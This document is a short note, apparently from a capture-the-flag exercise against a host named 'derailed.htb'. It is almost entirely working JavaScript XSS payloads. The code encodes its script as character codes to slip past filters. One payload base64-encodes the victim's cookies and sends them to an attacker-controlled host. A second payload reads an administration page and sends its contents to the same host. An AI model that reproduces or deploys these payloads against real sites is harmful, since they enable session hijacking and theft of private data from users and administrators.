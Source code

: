 
XSS cookie stealing using charcode bypass:
---
#xss #charcode #bypass #cookies 
```js
const attacker = `http://10.10.14.164/cb`;
const xssString = `var attacker = "${attacker}";
fetch(attacker + "?cb=" + encodeURI(btoa(document.cookie)));`
const payload = Array.from(xssString.split(''), ch => ch.charCodeAt(0)).join(',');
console.log(payload);
```
Reverse the payload:
---
```js
console.log(String.fromCharCode(...(payload.split(','))));
```

```js
var url = "http://derailed.htb:3000/administration";
var attacker = "http://10.10.14.164/cb";
const xssString = `
var xhr  = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
        fetch("${attacker}" + "?" + encodeURI(btoa(xhr.responseText)))
    }
}
xhr.open('GET', ${url}, true);
xhr.send(null);`
const payload = Array.from(xssString.split(''), ch => ch.charCodeAt(0)).join(',');
```